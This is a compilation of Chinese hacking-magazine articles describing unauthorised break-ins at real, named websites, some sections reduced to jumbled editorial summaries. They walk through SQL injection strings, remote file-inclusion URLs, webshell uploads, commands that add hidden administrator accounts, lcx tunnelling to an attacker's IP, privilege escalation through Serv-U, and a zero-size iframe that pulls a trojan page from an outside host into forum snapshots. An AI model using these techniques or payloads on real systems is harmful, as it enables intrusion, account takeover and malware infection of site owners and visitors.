我们还可以利用很多管理员的懒惰，来进行默认数据库下载。目录组为：db 或 SimpleBlog/db 或者 blog/db，文件名为 simpleBlog.mdb，如图7所示，得到了很多数据库地址，下载一个来看（图8）。利用挖掘鸡我们的效率大大增加了吧。

图8

错误安全思想，进而导致了注入和跨站。如果过滤了单引号，那我们在构造 SQL 语句的时候只要避开单引号就可以了，比如利用类似的代码来注入，`and 1=(select id from admin where asc(mid(username,1,1))>10)`，这样不就避开了单引号的干扰了。所以对于注入漏洞的防御，仅仅过滤单引号是没有什么用处的，一定要过滤 SQL 语句中的一些词语，才可以防止注入。

而对于跨站漏洞的修补主要有两点：

- 1. 限制用户提交数据的长度；
- 2. 过滤或者转换用户提交数据中的 HTML 代码。

因为该系统采用 ACCESS 数据库而且不提供任何上传功能，那就更别提数据库备份了，所以没有得到 webshell，有点遗憾。不过可以利用注入漏洞来得到管理员密码，进而利用跨站漏洞来进行挂马。使用该系统的网站全部为国外的，所以可以得到很多国外肉鸡哦。（本文所涉及到的网络注入工具已收录到光盘中）

### 四、总结

首先这个系统的两个版本都没有采用加密技术，这对系统的危害比较大，因为直接注入得到的密码就是明文。如果采用加密技术（如 MD5）以后，只要管理员的密码设置得比较复杂，那么也不是那么容易被破解，这就大大增强了系统的安全性。因为程序中的一些变量由于没有过滤或者只过滤了单引号，这是非常严重的。

## 挑战安全焦点的入侵

爱无言

安全焦点！？真的假的，难道他们的网站真的有漏洞吗？倘若我告诉你安全焦点的博客网站有漏洞的话，你是不是会大吃一惊呢？作为国内领先的安全网站，使用的 blog 程序竟然存在着巨大的漏洞，倘若你不信的话就随我来看吧。

安全焦点使用的 blog 程序是 LifeType，版本是 1.0.6。起初，我以为安全焦点 blog 程序是他们自己编写的，所以才想测试一下。当发现使用的是 LifeType 时，我赶忙下载了一套程序，开始读起代码来。

可以说这个博客程序非常美观实用，程序使用类结构封装了所有用到的变量，这使得刚开始阅读代码有一点复杂，因为你要明白程序的运转流程，才能找到相应的类对象。

不多说了，急忙在本机搭建平台开始测试，我们先来看第一个漏洞：暴露物理路径漏洞。这个漏洞主要是因为程序在定义全局变量时未考虑变量的传递，导致未定义出错而暴露物理路径，如图1。

对于 `$fileName` 变量，没有任何过滤就直接放进了查询语句，导致我们可以进行注入攻击。而 `$fileName` 这个变量是由 `resource` 变量传递进来的，所以利用提交的 `resource` 变量我们就能进行注入攻击了。理论完，让我们看看实际操作吧，这个是正常页面，如图2。

图1

图2

由于程序没有传递好变量 `PLOG_CLASS_PATH`，导致程序无法包含文件，于是就暴露了物理路径。这个漏洞不止这一个文件可以暴露，很多文件都能导致出错。

你可能会说这个没什么用，只能算是一个 bug，那么别急，让我再告诉你下一个漏洞：注入漏洞。这个漏洞的危害可就大了。测试这个漏洞时我发现，不管 php 设置文件中的 `magic_quotes_gpc` 是否开启，都可以成功注入。首先让我们理论分析一下，问题主要出在程序对资源文件的处理上，看看文件 `galleryresources.class.php` 是怎么写的。

现在加入我们的注入语句 `/%20and%20(select%20count(*)%20from%20otf_users)>0/**`，注意一定要加上后面的 `/**`，因为程序后面会改变查询语句，不然不能成功，看效果，如图3。

把注入语句 `and (select count(*) from lt_users)>0/*` **换成注入语句** `and (select count(*) from xf_users)<0/*`，怎么样，出错了吧，因为数据表 xf_users 内容不可能为空的，如图4。

在利用这个漏洞时最让人头疼的是表名的猜解，因为程序初始化时用户可以设置表名前缀（默认是 `lt`），如果改了就需要重新猜解。作者提到在 Windows + IIS 且未做特殊设置时，可访问 `tmp` 目录下的 `sql_error.log`，其中会记录出错 SQL 语句。

```sql
27-08-2006 17:18:38 ERROR - The following query =
SELECT id, owner_id, album_id, description,
       date, flags, resource_type, file_path, file_name,
       metadata, thumbnail_format
FROM xf_gallery_resources
WHERE owner_id = 1 AND
      file_name = 'COPYRIGHT.txt' ...
```

看到 `xf_gallery_resources` 了吗，这样就不用费太大力气得到表名。但在 Linux 或 Apache 某些配置下，可能会出现访问权限不足错误。结合前面的物理路径泄露漏洞，完全可能拿到一个 webshell。

当我使用这两个漏洞去安焦的 blog 测试时也是成功的（如图5）。测试中还发现该站点目录浏览未严格限制，因此可以浏览网站目录（如图6）。

上面说的漏洞可被任意浏览网站的人利用。测试中还发现，如果能注册成为 blog 用户，在写日志时加入语句 `<script>alert("I hack you!")</script>` 到内容里，就可触发跨站脚本攻击（如图7）。

最后，这个漏洞的影响是严重的。作者联系站长后未做进一步破坏，只作提醒。并提到 LifeType 漏洞不止这些，且已有新版本发布，欢迎大家继续讨论研究。

## 挑战安全盲点的人们继续登场

## Discuz! 突发危机
### ——Discuz! 4.0 / 4.1 / 5.0 漏洞来了！

zj1244 小葵（曾佳）

> ★★★ Discuz! 4.0 / 4.1 / 5.0 远程注入漏洞 ★★★

虽然已是秋天了，但是南宁还是那么热，有几次竟然把我从睡梦中热醒，导致的直接后果就是脑子终日处于半昏迷状态。幸好继上个月微软为我们带来了 MS06-014 和 MS06-040 这两个重磅级的漏洞后，这个月 Discuz! 又爆出了新漏洞来为我解暑。大师们依然是只提有漏洞，叫我们快点升级程序或者打补丁，不告诉我们具体的漏洞内容也不给漏洞利用工具。没办法，我们只有自己动手，丰衣足食了。

> 小结注：这里先声明一下，考虑到代码过多会影响页面排版，文中很多地方仅写思路与关键点；建议结合安全焦点相关文章与 PHP5 GPC 绕过缺陷一并理解。

### 一、漏洞简介

- 漏洞类型：SQL 注入
- 危险等级：高
- 涉及版本：Discuz! 4.0.0、Discuz! 4.1.0、Discuz! 5.0.0 RC1

漏洞描述：此漏洞源于新近发现的 PHP5 GPC 过滤错误。由于 Discuz! 对于 `$_SERVER` 数据没有进行严格过滤，可导致用户使用特殊工具伪造非法数据并注入 SQL 语句，获取论坛管理员权限。虽然此 PHP 漏洞仅仅限于 PHP5 版本的服务器环境，但是经过 FreeDiscuz! 团队成员测试，PHP4 用户同样受到此漏洞影响，且此漏洞亦威胁 PHPWIND 论坛程序。提醒广大论坛管理员尽快进行漏洞修补。经过测试，以下 Discuz! 用户不受此漏洞影响：使用过 0801 补丁的用户不受影响；全新安装 Discuz!_4.1.0_SC_GBK_0810 FD 修补版的用户以及 Lite Beta 2 用户不受影响；Discuz! 5.0 RC2 及 5.0 正式版用户不受影响。

关于原理方面还需要解释一下，安全焦点那篇文章提到的是 `$_SERVER` 方式获取的变量，而这里提到的漏洞代码却是 `getenv()` 方式，实际上它们是一样的，不过 IIS 不支持 `getenv` 使得那一段代码失效了。因此，我们搜索入侵目标前，首先应该检查目标论坛所使用的 Web 服务是 IIS 还是 Apache。我知道这一段原理介绍非常晦涩，菜鸟朋友们看不懂完全可以跳过不看。接下来我们会进入漏洞的利用和工具的介绍。

### 二、漏洞分析

知道了相关信息，马上上网下了套 Discuz! 4.0.0 的代码来看。可惜对 PHP 不熟悉，正头疼时，网上又公布了一个 Python 版的漏洞利用工具。

```bash
python.exe discuz.py http://target.com/ 2
```

就可以猜测 `http://target.com/` 的 uid 为 2 的用户密码了，如图 1。


只可惜，这个工具的效率实在是太低了，猜解半天也猜不完一个密码，于是抓包分析再结合源码查找，终于确定问题出在 `include/common.inc.php` 这个文件里的 `$onlineip` 变量上（第 73 行）。那段代码的作用是获得在线会员的 IP 地址。它通过 `getenv` 方式查看是否存在 `HTTP_X_FORWARDED_FOR` 值，若存在则认为浏览者使用了 HTTP 代理。于是把该字段的内容当作会员的真实 IP 并带入 SQL 语句中进行执行，偏偏这个值是在 HTTP 协议数据包中可以自己构造和定义的，再加上 PHP 默认并不保护通过 `getenv` 方式获取的数据，导致了攻击的发生。

### 三、漏洞利用

首先我们使用搜索引擎寻找目标，推荐用 Yahoo、Google 等搜索引擎搜索关键字“Discuz!”或者“Powered by Discuz! 4.0.0”就可以找到很多目标，如图 2。


> 小经验：Discuz! 官方并没有给出 4.0 版本的修补方法，很多站点仍是人工修复。建议先升级到 4.1 或使用社区补丁，并确认服务器环境与代理头处理方式。

我们以 `http://www.ya*anb.com` 为例。打开这个网站后，直接在首页拉动到底部，查看版权信息确定确实是 4.0 的版本，点击“在线用户”最右边的小“+”号后，可以看到当前在线的所有用户，如图 3。其中我框起的部分就是管理员，用鼠标在他的名字上悬停，IE 的状态栏中就出现了他的 UID，这里是 3294，我们把它记录下来。现在打开我制作的利用工具，它默认是根据 UID 猜解任意用户的密码散列，我们填写好目标网站的地址 `www.ya*anb.com`，再写入管理员的 UID，这里是 3294，然后单击“发送”，如果不出意外的话，程序一会儿就会猜解出对方的密码了，如图 4。

> 小提示：因为 Discuz! 论坛程序是开源代码，在很多时候允许我们去直接读取论坛的 `cdb_` 前缀名数据库信息……但绝大部分情况下我们不要随意修改里面的数据。


现在得到了对方的密码 MD5 散列，我们还需要去查一下密码的明文是什么才可以登录论坛啊。来到 `http://www.cmd5.com`，输入刚才得到的 MD5 散列和验证码，提交后如图 5。


得到管理员密码了！现在我们就用它登录看看吧，结果非常顺利！点击“系统设置”还能进到后台，再次输入密码后如图 6 所示。当然，也有的时候人品不好会遇到管理员设了“安全提问”的情况，这个时候光是输入密码是无法登录的，如图 7。


### 四、如何获取 WebShell

说实话，Discuz! 论坛的安全性做得真的很不错，我们尝试了现在知道的所有方法也没能成功得到 WebShell。但是在一定条件满足的时候还是可以做到的。

我们都知道 MySQL 里有一个 `outfile` 函数，它可以把查询的结果写入指定目录指定文件中。在这个漏洞的利用过程中，我们……


### 一个人的战争（续）

（正文）介绍通过 SQL 注入将 `<?phpinfo()?>` 写入目标文件、构造一句话木马、保存到可写目录并访问验证的过程，包含对路径、IIS 环境和目录可写性的讨论。

- （总结项）部分版本可利用，但条件苛刻。
- 4.0.0 和 4.1 版本存在漏洞，但对方打补丁或特定平台会失败。
- 目前多只能拿到 MD5，是否可进一步明文破解取决于口令强度与安全提问。
- 工具有时不稳定，需要多次测试。

> （文中说明）提到 discuz.py 编译后工具、漏洞利用工具及《假作真时真亦假——“真实”IP 带来的安全隐患》等文章为同作者系列。  
> （灰底框）读者反馈/经验补充：讨论 WebShell、IIS 环境、路径与利用稳定性等实际测试体会。

### 小编编语

对投稿文章进行补充说明，强调漏洞分析与复现耗时，提醒读者不要低估利用条件，并讨论当时社区对 Discuz! 与 PHPWIND 相关漏洞公告的反应。

### 五、简单总结

因为测试了很多论坛，发现该漏洞利用限制条件较多，先做简要结论，并指出 5.0 RC2 与正式版不受影响等。


## 远程文件包含，今天你玩了吗

非零解 [S.Y.C]

### 一、看见漏洞公告

介绍在网上看到 PhpwCMS 1.2.6 文件包含漏洞公告，列举多个可能受影响文件路径（如 `include/inc_ext/spaw/dialogs/...`），并说明 `spaw_root` 参数未过滤时可通过远程路径触发包含。

### 二、学习的第一天

记录通过搜索语法寻找潜在目标站点、随机挑选站点尝试漏洞验证，并访问构造 URL 的初步实践过程。

右栏正文继续说明检测 URL（如 `dialogs/table.php?spaw_root=...`）时页面回显“未找到页面”可作为线索；并描述在目标站创建 `class/lang.class.php`、调试失败、向同学请教 Linux 符号链接等后续尝试。


### 三、学习的第二天

第二天去搜索发现有漏洞的网站变得比较少了，大部分网站都补上了漏洞，还有一部分美国的网站被挂了一些与反战有关的图片或国旗。还好昨天的那个网站没有被人黑掉，还有机会学习。我在无意中得到了 JSP 的 webshell，试着写了一个 PHP 文件，在浏览器浏览的时候出现的是源文件。看来现在可以利用这个 JSP 的 webshell 来作跳板。

在 webshell 里建一个 class 的文件夹，然后在 class 目录里面上传一个 `lang.class.php` 空文件，在文件里写上 `<?phpinfo()?>`，在浏览器上浏览  
`http://.../gate/download.jsp?file=/opt/oracle/product/10gbi/j2ee/gate/applications/gate/gate/class/lang.class.php`，显示的就是 `<?phpinfo()?>`。然后提交 `http://arena-sv.jans-webdesign.com/phpwcms/include/inc_ext/spaw/dialogs/table.php?...`，其中 `%2F` 是 `/` 的意思，如图 2。


编辑 `lang.class.php` 文件，先写了一个 phpspy。但是登录 webshell 后，页面转到了其它的页面。还是先传一个可以上传文件的马儿吧，传了一个国外的 PHP 木马，木马的功能很强大。

浏览 `http://arena-sv.jans-webdesign.com/phpwcms/include/inc_ext/spaw/dialogs/table.php?...`。不过，国外木马总是用着不舒服，还是上传一个经过修改的 phpspy 吧。上传的文件改为了 `imge.php`，现在访问  
`http://arena-sv.jans-webdesign.com/phpwcms/include/inc_ext/spaw/dialogs/imge.php?cuit=6305`，登录后一个 webshell 就在我们眼前了，如图 4。权限也不错，但是由于是 Linux 系统，也不知道怎么去提权，还是先放一下吧！


### 四、学习的第三天

对 Linux 下的提权一点儿都不了解，没办法只有寻求帮助了。Jinsdb 师兄叫我去一些好的网站找一下 exp 看看，他还告诉我说上次在我的网站中，浏览 PHP 文件时找不到文件的原因：因为我的系统是 2003 的，所以要在 IIS 的 ISAPI 筛选器中加 `.php` 后缀，而在 XP 下访问 PHP 文件就可以直接浏览。看来上次我得到的服务器基本上是 2003 的。

这次的学习也蛮有意义的！发现一点，国外的网站管理员比较重视安全。在出现漏洞的第二天，很多网站都把漏洞补上了，还有的网站被人入侵后也能马上发现，并及时清除 webshell。

> **sagi 点评**
>
> 从文章中可以看出，作者对于远程包含漏洞的学习还是挺有成效的，每天都有进步，从刚开始一点都不会，到最后成功拿到了对方的 webshell，他的学习精神是值得我们广大读者学习的。
>
> 但同时，从文章中也可以看出，作者对于远程包含漏洞的理解还存在许多问题。
>
> - “website2 是攻击的网站”，事实上这个我们可以理解成自己的网站。`website2` 所在的目录下有 `class/lang.class.php`，这一点也是错误的，有没有这个文件根本不影响漏洞的测试。
> - 作者使用百度来进行测试的那一步是多余的，完全可以直接使用自己的站点来进行测试。另外，在自己的站点上也完全没有必要去建立 `class/lang.class.php` 文件。
> - 可以说，远程包含的使用甚至拥有一定的固定模式（当然，不完全都一样）。我们可以建立这样一个内容为 `<?passthru("ls")?>` 的 txt 文件，将该文件保存在我们的网站上。我们以另外一个远程包含漏洞为例子，可以进行如下提交：`http://www.../slideshow.php?cmsdir=http://www.sagi.net...`
> - 个人经验侧重渗透的对象是作者对于 UNIX/Linux 系统的不熟悉，否则作者一个本地溢出就轻易拿到权限；建议读者多接触 root 权限的环境，在《黑客X档案》相关栏目中也可参考《黑客Linux入门》一书……我们会发现，UNIX/Linux 网站是好“抓”的。

（文章中涉及到的 PHP 国外木马、PHP 和 phpspy.php 已经收录于光盘中）

## 菜鸟求渗透北京化工大学

hackest

### 一、事出有因

看《黑客X档案》也有好些日子了，是《黑客X档案》使我成了黑客爱好者。一直想写篇文章，也算是验证一下自己这么长时间学习《黑客X档案》的成绩。好了，那就开始吧。首都北京那边的大学比较多，只要愿意，找一下网站漏洞什么的还是比较容易的。什么，说我吹牛？你小子看好了，我要入侵的目标就是北京化工大学。

### 二、雾里探花

首先我们打开北京化工大学的主站，页面似是简单，给人一种挺清爽的感觉，但是越简单对我们来说就越不利，还真的不知道该怎么下手了。主站怕是没什么看头了，还是看看分站吧，机会可能会多一些。在行政机构的分栏里发现有个期刊中心，打开后发现页面还是很简单，只有寥寥几个链接，心又凉了一半……地址倒是挺讨人喜欢的，如图 1。


这个许多读者应该比我还熟吧！看来有戏了，再用经典的“and 1=1”和“and 1=2”进行检测，确定了存在注入！然后就是操家伙了，回到我的兵器库，拉出啊D就是一顿狂注。不一会儿，我们要的东西就全都出来了。哇噻，还是 SA 权限呢，如图 3，这回发了！剩下来的工作就是猜表、找后台登录了，这些就不用我讲了吧。


### 三、名花有主

我们来试一下 SQL 注入吧。首先在刚才的那几个链接网址后加个单引号，回车后，提示出错了，如图 2。

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server] 字符串 '' 之前有未闭合的引号。
/infomation.asp, 行 9
```


现在，我们就用最简单的办法获取 webshell。首先找到网站的目录，怎么找？用啊D呀，目录查看一下就出来了。确定了网站的目录为 `D:\magtech\web\`，然后就是使用啊D的“CMD/上传”功能往对方的 ASP 文件写入一句话木马了，啊D提示成功了，如图 5。


图4

### 四、几欲殒命

本来我以为这样就成功了的，接着便是上传大马了，我使用的是站长助手。用一句话木马把大马传上去之后，提示成功了，但当我到 IE 里访问的时候却把我吓傻了。发生了什么事？它……它居然要 IIS 身份验证，真是可恶！看着自己的大马在那边逍遥秋水，自己却无能为力。唉！谁叫俺是菜鸟呢。希望能有哪位大虾指点小弟一二，不胜感激啊！看来要出绝招了，我是 SA 我怕谁？

接下来要做的就是加个用户了，看你还往哪儿跑，叫你不让我访问我的大马……还是使用 HDSI3.0，命令格式为 `net user hackest password /add` 和 `net localgroup administrators hackest /add`。意思就是添加一个用户名为 hackest、密码为 password 的用户，并加入到管理员组中，如图 9。然后嘛，自然就是登录上去了，如图 10。其实如果有了 SA 权限的话，拿下服务器并不是什么难事，特别是没有删除扩展存储 `xp_cmdshell` 的那种服务器！好了，至此，我们已经完全控制了服务器，入侵圆满结束。

### 五、开天辟地

不让我访问大马我就不访问呗，是他们逼我用绝招的哦，不要说我心狠手辣。有我的一句话小马就已经足够了。我在执行 `net start` 命令的时候发现对方居然开了 Terminal Services（终端服务），不过可惜的是端口不是 3389。不过没关系，既然他们都逼得我要用“绝招”了，我也什么都不怕了。我们来帮它改改吧，工具使用的是 X 档案上介绍过的万能开 3389 工具 `supersc.exe`，的确万能哦，反正我是百试百灵的。我们就用一句话木马把它传上去。先存放在对方的网站目录吧，如图 7。

```text
D:\magtech\web\supersc.exe -s 3389
```

意思是重新开启远程桌面服务，重启后把服务端口改为 3389。不过我要说没有什么反应，那我们就按老的 HDSI3.0 吧，它的命令执行功能比啊D强。这回服务终于重启了，重启之后，我们就可以正常连接了，如图 8。


图5


图7

再用我修改过的一句话木马客户端进行连接，成功了，如图 6。OK，webshell 已经到手了。


图6


图8

### 六、肺腑之言

希望大家在入侵别人的时候要照顾一下别人的感受，不要……动不动就改别人的首页，这样做影响不好，通知一下管理员也就是了。还有就是挂马，这样做只会伤害到很多无辜的百姓菜鸟。在下刚入黑道，如文章中有什么不对的地方，还请大家不吝赐教。

（文章中涉及到的工具 HDSI3.0、啊D注入工具、一句话木马、supersc.exe 已经收录于光盘中）

## 解开密文后得到密码优选登录后台之谜

旭方（高春雷）

今天在对一个目标站点进行渗透的时候发现很难搞定，于是想到了旁注，幸运的是很快便找到了服务器上一个存在注入漏洞的站点，接着使用 Domain3.5 顺利地将后台管理员的帐号和密码给猜解了出来，如图1。

将得到的用户名和密码输入后进行登录，但令我意想不到的是，居然提示密码错误！不会啊，这明明是后台管理员的密码嘛！就在这时我忽然想起前些日子在一个群中也有一个朋友遇到过和我一样的问题。于是我便再次去群中询问，对方给了我一个工具，说使用它将注入后得到的密码进行一下还原就可以了！我便将用户 admin 的密码“zw’mszvvp”使用工具进行了还原，结果如图2所示。原来对方是将登录密码使用自己编写的函数进行加密后再存放到数据库中的，而我们使用注入工具得到的密码只是存放在数据库中的被加密过的代码，使用它来登录自然登录不了！

这回使用还原过的密码再次登录！因为在页面下方就有“管理登录”的链接，也省去了我找后台的麻烦。进入后如图3所示，输入得到的用户名及密码，成功登录后台，如图4。细心的朋友一定注意到了，这里的密码就是加密之前的密码！我们如果使用注入得到的密码是无论如何也进不了后台的！怎么样？这招够阴吧！

接下来就是想办法得到 webshell 了！经过我的测试，这套系统的“上传图片”部分存在漏洞，致使我们可以直接上传 asp 文件，如图5。首先在本地选择好一个 asp 木马，特别要注意的是木马的名字，因为这个名字就是它上传到服务器上的名字，我这里将它命名为 test.asp，然后上传！片刻后便会提示“上传成功”，但是却不给出文件的具体地址，需要我们自己动手！

其实方法很简单！首先我们来到主页，然后随便找一张新闻图片，查看其属性便会得到图片的地址信息，如图6。从中我们可以注意到图片是存放在 product 目录下的，我们在其后输入刚才上传的 asp 木马的名称便成功进入了，如图7。怎么样？是不是很简单？

最后说一下如何寻找使用这套系统的网站，方法很简单，我们在 google 中搜索 “inurl:login.asp Co Net M1B Ver 1.0”，就可以找到大量使用这套系统的网站，如图8。最后再补充一点，最近在检测其它网站的时候，发现有相当一部分不是使用这套新闻系统的网站也存在着这种注入后得到的密码需要经过转换才可以登录后台的情况，希望大家根据自己的实际情况进行选择！

> （文中涉及到的工具 SQL 注入得到密码而无法登录解决程序已收录在光盘中）

## ASPX、ASP 模块和 Serv-U 本地提权及权限升级

旭方（高春雷）

### 一、起因

新学期刚开始，许多学校的招生工作都进行得如火如荼，早上在查看电视，某电视台就将一部分提供招生信息资料查询的网站的网址公布了出来，以方便考生们进行查询。我顺手便记下了一个，打算对它进行一次安全检测，接着便有了下文。

### 二、注入获取后台权限

首先在 IE 中输入记下的网址，进入后发现是中国艺考热线网。随便点击了几个主页上的链接，发现是 aspx 的页面，而且存在数据提交，先来看看存不存在 SQL 注入漏洞吧！提交 “and 1=1”，返回正常页面，接着又提交 “and 1=2”，返回了一个非正常页面，由此看出是存在 SQL 注入漏洞的。由于手动注入太麻烦，于是便将该注入点交给了 Domain3.5 去搞定。Domain 果然不负重望，不一会儿的工夫就将后台管理员的用户名及密码信息给猜解了出来，如图1。而且密码也是明文存放在数据库中的，这倒是给我省去了不少的麻烦。得到了管理员的帐户和密码，接下来便是找后台了！先来猜测一些常见的吧！于是在网址后加个 admin 回车，提示找不到该页，接着换成 manage，结果浏览器返回“Directory Listing Denied”，说明目录存在！然后我在其后面加了个 login.aspx，结果成功进入了后台登录的页面，输入刚才得到的用户名和密码，成功进入了后台，如图2。

### 三、eWebeditor 配置不当获得 webshell

我大概浏览了一下，然后找到了添加新闻的地方，刚一进入就有个熟悉的面孔映入眼帘，如图3，这不就是 eWebeditor 吗？！倘若遇到粗心的管理员没有将 eWebeditor 默认的管理登录页面更改，并且采用的是默认的数据库名称，而且管理密码设置得也不是很强壮的话，那得到 webshell 就是时间的问题了！但如何在该页面中找到 eWebeditor 的真实路径呢？根据我的经验，像这样的情况，管理员都是把提供 HTML 中的 iframe 标记将 eWebeditor 编辑器放在网页中的，我们只需要在这个页面的源文件中查找 iframe 这个内嵌框架标记即可！怎么样？乖乖地出来了吧！如图4。然后输入默认的登录页面，结果成功进入，再来试试默认的帐户 admin 和密码 admin，一切顺利，成功进入管理后台，如图5。

```html
<iframe id="eWebEditor1" src="eWeb/eWebEditor.asp?id=content">
```

接下来就是在已有的样式中拷贝一个样式，然后在新样式中添加 asa 上传类型。因为直接添加 asp 是无法成功的，而且它默认和 asp 文件一样都是采用 asp.dll 进行解析的，如果管理员没有将 asa 这个映射删除的话，我们就可以得到 webshell 了。

具体的方法在以前的 X 档案中都介绍过了，我就不细说了，最后成功得到了一个 webshell，如图6。

### 四、提权陷入困境

剩下的就是提升权限了！我查看了一下服务器所支持的组件信息，对提权有帮助的 Wscript.shell 和 Shell.Application 组件居然都被禁用了！这就意味着我们无法利用 webshell 来执行譬如“net user”和 ipconfig 等常用命令，而且界面上传 cmd 的方法也是不行的，会提示“缺少对象”。我们再来看看其它第三方程序是否有可以利用的地方！先来看 pcAnywhere，如果可以下载到它的 .cit 文件的话，那么就可以使用工具还原管理员的密码然后直接登录并且管理服务器了！我访问 C:\Documents and Settings\All Users\Application Data，但结果很失望，没有安装 pcAnywhere。接着访问 C:\Documents and Settings\All Users\「开始」菜单\程序，发现安装有 Serv-U，如图7。

这是个好现象，我进入该目录，将快捷方式文件 Serv-U Administrator.lnk 下载到本地，查看其属性得到了 Serv-U 在服务器上的安装路径信息，如图8。我便尝试跳转到该目录，如果目录可以访问而且 Serv-U 的版本较低的话，我们就可以通过修改它的 ServUDaemon.ini 文件，然后加个具有执行权限的用户，使用 ftp 连接上去提升权限即可！但结果很令人失望，无法访问，提示“E:\SQL\Serv-U 目录不存在或者不允许访问”。我又想到了使用替换服务的办法来提权，于是便利用 webshell 查看服务器所开放的服务，看是否有可以利用的，但结果也很令人失望，无法查看。接着又去 `C:\Documents and Settings\All Users\「开始」菜单\程序\启动` 目录下看是否具有可写权限，如果可写的话我们就可以将配置好的木马程序放到这里，然后等待服务重启或者启动后就可以运行我们的木马程序了，但依然失败，没有写权限！我又尝试跳到其它网站的目录，但现实又一次打击了我，依然是无法访问！

### 五、aspx版 Serv-U 提权工具显奇效

郁闷极了，我便去网上寻找解决问题的方法，无意中逛到了 lake2 的 blog，紧接着一个标题引起了我的注意，什么？ServU aspx？再一看摘要，原来是 aspx 版的 Serv-U 提权工具，这个站点不正好是 aspx 的吗？

太好了！我马上将上面的代码保存为 aspx 文件，然后用 webshell 传了上去访问，成功了，如图9。先前我们发现服务器将 `Wscript.shell` 对象禁用了，现在我们就给它恢复回来！其实 `Wscript.shell` 对象之所以被禁用是因为管理员在服务器端使用命令 `regsvr32 /u wshom.ocx` 卸载了该对象，我们只需要将参数 `/u` 去掉即可重新注册该对象！不过进行这个操作需要具有管理员权限，所以这个 aspx 的 Serv-U 提权工具自然就担当起这个责任了！我在 webshell 中的 cmd 处输入 `regsvr32 wshom.ocx`，之后点 Start，如图10。

大家注意我标注的地方，可以看出我们输入的命令执行成功了！

现在我们在 webshell 中输入命令就可以使用 `Wscript.shell` 对象来执行了！说明一点，在恢复对象后，我们首先要从 webshell 中注销，然后在一个新的 IE 中重新进入 webshell 方可成功执行命令，否则即使组件恢复成功依然会提示“缺少对象”，切记！

### 六、lcx.exe 助3389登录一臂之力

我在 webshell 中运行 `netstat -an`，发现 3389 端口正处于监听状态，于是利用 aspx 的 Serv-U 提权工具分别执行命令 `net user xufang xufang0219 /add` 和 `net localgroup administrators xufang /add`，向服务器中添加了一个名字为 xufang 的管理员，接着使用 ipconfig 查看了一下服务器的 ip 地址，然后在客户端进行连接，但是却没有连接上，估计是服务器端有防火墙的原因。

一般防火墙都是对由外部到内部的连接看管得死死的，但对由内部向外部的连接却睁一只眼闭一只眼，这样我们就有了空子可钻。我决定使用 lcx 来搞定它！

首先将 lcx.exe 上传到网站目录，然后在 webshell 中选择“使用 Wscript.shell”，在下面的命令中输入 `E:\Service\HomeDir\artgkcn\web\images\lcx.exe -slave 你的公网ip 51 127.0.0.1 3389`，前提是你需要有公网 ip，如果你在内网的话，需要在路由器上做一下端口映射。

执行后再在本地执行 `lcx.exe -listen 51 5000`，接着使用 3389 登录工具连接本机的 5000 端口，这样就等同于连接服务器的 3389 端口了！连接成功！太好了！输入刚才添加的帐号和密码进行登录，成功进入。

### 七、Serv-U 本地提权怎能少了 ASP

当我在 QQ 上和好友职业欠钱聊及此次渗透时，他给了我一个 Goldsun 写的 ASP 版的 Serv-U 本地提权工具。于是我便想起了以前渗透过的一个站点：在 webshell 中通过查看服务得知服务器装有 Serv-U，但不幸的是像 `Wscript.shell` 和 `Shell.application` 这样对提权起关键作用的组件通通被禁用了，无法使用 exe 版的提权工具进行提权。而且服务器的操作系统为 Win2000，默认只支持 ASP 脚本，而且试了一下其它方式进行提权，但结果也很令人失望。

今天就来试一下这个，或许还会有意外的惊喜呢！使用 webshell 将它传了上去，访问后如图13所示。其中“用户名”、“口令”、“端口”和“系统路径”处我们保持默认即可！在下面的“命令”处，我们可以输入相应的命令。来测试下是否可以成功提权吧！先来加个用户试试！需要注意的是，因为服务器的 Wscript.shell 和 Shell.application 组件都被禁用了，所以我们是无法在 webshell 中通过执行命令来看到回显的，

```cmd
cmd /c net user > c:\xufang.txt
cmd /c net user xufang xufang0219 /add & net localgroup administrators xufang /add
```

来将系统中的用户信息定向到 C 盘下的 xufang.txt 文件中，这里不是必须要选择 C 盘，其实只要是在 webshell 中可以访问得到的目录都可以！这里是用 “&” 符号将两条命令合在了一起执行，然后点“提交”。片刻后程序就会提示成功执行了命令，之后我们再次输入命令并查看现在的 xufang.txt 文件，就会发现 xufang 这个用户已经被成功添加进管理员组了，如图14！

接下来的事情就靠大家的想象力去发挥了！经过我的测试，该程序无论是否提权成功，到最后都会显示成功执行了命令，所以大家不要盲目地相信程序的结果，最好是用我刚才介绍的方法测试一下是否成功执行了命令，如果该文件存在的话，就说明可以成功提权了！

### 八、总结

至此对该网站的检测就告一段落了。从 SQL 注入到 eWebeditor 的配置不当再到 Serv-U 的本地管理员密码没有进行更改，该网站管理员的安全意识真的很让人担忧！其实仔细想想，往往在一台服务器遭到入侵后多半都是由于管理员忽略了细节上的防护从而造成的。

## 再续百度、TOM、21CN 系列搜索引擎漏洞

冰河洗剑

在上期的文章中，我们已经简单介绍了百度、TOM、21CN 等搜索引擎存在的漏洞，相信大家对于漏洞都有了一定的了解。本文我们将从实例的角度来介绍这些漏洞具体的利用方法。

用记事本打开该文件，将代码复制，然后插入到任意网页文件的“`<body></body>`”代码段中间，即可得到一个木马网页。

### 一、挂马实例：动易官方网站论坛挂马

首先，当然是要制作好一个木马网页了，我用的是“南域剑盟网页木马生成器”，准备了上兴木马服务端“muma.exe”，将其上传到了 Google 的个人空间里面“http://pumaxiaoyao.googlepages.com/muma.exe”。然后将木马网址填写到“URL”中，点击“生成文件”按钮，在当前目录下就会生成一个名为“Script.txt”的文件（图1）。

我选择了动易官方网站论坛进行测试“http://bbs.powereasy.net/index.asp”，动易官方网站论坛采用的是动网 DVBBS7.1.0 SP1 论坛，这个论坛的安全性是很高的，好像有一个出错语句可以挂马，不过明眼人一眼就能看出来了，今天试试我们的快照挂马方法吧！

我已经在论坛里发了一张帖子了，时间挺长的了，早已被纳入了百度快照。链接为“http://bbs.powereasy.net/dispbbs.asp?BoardID=44&id=211892”，在其中包含有挂木马网页的语句：

```html
<iframe src=http://www.chinaprider.com/bbs/images/board/index.htm width=0 height=0></iframe>
```

语句效果是在网页中加入隐藏的框架，框架中是木马网页（图2）。这个链接的百度快照结果就不用再抓图了吧，反正在快照里面，挂马语句是执行了的，现在我们要想办法让别人来访问这个快照链接……总之，让别人被吸引来打开这个快照链接（图3）。

### 二、百度快照挂马分析

从上面的挂马实例可以看出，百度快照让所有网页都可以挂马了！但是在真实的攻击过程中，大家可能还会碰到几个问题需要解决。

